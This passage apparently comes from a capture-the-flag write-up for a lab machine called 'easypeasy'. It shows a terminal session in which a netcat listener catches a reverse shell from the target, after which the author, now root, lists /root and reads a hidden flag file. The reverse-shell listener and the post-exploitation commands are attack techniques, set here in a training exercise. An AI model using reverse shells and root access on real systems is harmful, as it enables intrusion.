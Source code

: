Which gave us root access

```bash
clobee@kali:~/tmp/easypeasy$ nc -nvlp 4444

Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.69.49.
Ncat: Connection from 10.10.69.49:52936.
bash: cannot set terminal process group (2160): Inappropriate ioctl for device
bash: no job control in this shell

root@kral4-PC:/var/www# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: No such file or directory

root@kral4-PC:/var/www# ls -ail /root
ls -ail /root
total 40
130578 drwx------  5 root root 4096 Jun 15  2020 .
     2 drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
130663 -rw-------  1 root root    2 Jan  3 12:36 .bash_history
138764 -rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
138763 drwx------  2 root root 4096 Jun 13  2020 .cache
132672 drwx------  3 root root 4096 Jun 13  2020 .gnupg
130659 drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
138765 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
138218 -rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
138546 -rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor

root@kral4-PC:/var/www# cat /root/.root.txt
cat /root/.root.txt
```
